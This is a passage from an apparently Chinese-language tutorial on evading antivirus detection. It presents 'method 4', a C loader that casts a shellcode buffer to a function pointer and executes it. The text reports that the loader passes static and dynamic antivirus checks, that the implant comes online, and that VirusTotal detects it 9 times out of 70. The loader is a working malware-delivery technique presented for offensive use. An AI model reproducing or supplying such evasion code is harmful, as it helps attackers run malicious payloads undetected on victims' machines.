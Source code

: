 
## 2.4 方法4:强制类型转换(VT免杀率9/70)

和方法1有些类似

```
#include <windows.h>
#include <stdio.h>

unsigned char buf[] ="";

void main()
{
   ((void(WINAPI*)(void))&buf)();
}
```
打开杀软测试，静态+动态都没问题，可正常上线

![132071ea84d0cc12e4f89fabb90eb974](images/2020.03-bypass-03/20.png)

virustotal.com上查杀率9/70
